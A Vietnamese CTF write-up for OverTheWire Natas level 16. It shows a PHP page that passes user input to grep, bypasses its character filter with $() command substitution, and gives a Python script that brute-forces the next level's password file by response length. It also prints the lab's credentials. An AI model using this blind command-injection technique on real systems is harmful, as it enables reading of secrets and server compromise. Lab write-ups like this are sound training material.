


# Natas Level 16

## 🔑 Mục tiêu
Tìm password cho level tiếp theo.

**URL: http://natas16.natas.labs.overthewire.org**     
**Credential: natas16:*hPkjKYviLQctEW33QmuXL6eDVfMW4sGo***

## 🛠️ Các bước thực hiện
1. Tổng quan trang web:    


2. Source code:    
```PHP
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
```

==>Đây là Command injection ở vài level trước đó nhưng đã được filter nhiều kí tự hơn như: ```[]```, ```;```, ```|```, ```&```, **`**, ```\```, ```'```, ```"```.    

==>Hầu hết các kí tự đã bị filter, ta nghĩ đến trường hợp **substitution** để match các kí tự trong password.   

-Khi thử command ```$(grep ^e /etc/natas_webpass/natas17)```:    


==>Lệnh không bị ảnh hưởng.   

-Ta nhận ra rằng trong substitution sẽ không bị filter khi đi qua hàm ```preg_match()```

-Giờ bắt đầu brute-force từng kí tự trong đó với script sau:   
```python
import requests
import string

url = "http://natas16.natas.labs.overthewire.org/"
auth = ("natas16", "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo")

CHAR_SET = string.ascii_letters + string.digits

password = ""

for pos in range(1, 40):
    for char in CHAR_SET:
        payload = f"$(grep ^{password + char} /etc/natas_webpass/natas17)chicken"
        r = requests.get(url, auth=auth, params={"needle": payload})
        if int(len(r.text)) != 1153:
            password += char
            print(f"[+] Found {char} is true charector in {pos} position")
            break
            
        else:
            print(f"[-] {char} isn't true charector in {pos} position")
            
print(password)
```

-Giải thích 1 chút nhé: Nếu mà substitution bên trong kia mà có thể chạy được, ví dụ như tìm được chữ A là kí tự đúng thì hàm ```passthru()``` sẽ thực hiện:   
```bash
grep -i "Achicken" dictionary.txt
```

-Theo í tưởng đó, ta có thể tìm được password nhưng vấn đề là điều kiện để nó là kí tự đúng là gì?    

==>THeo mình suy đoán thì nó sẽ có ```Content-length``` khác so với các request bị sai, vào xem ```Content-length``` của 1 char sai:   
```bash
Content-Length: 1153
```

==>Lấy cái này làm điều kiện :))    

## 📌 Key: ```EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC```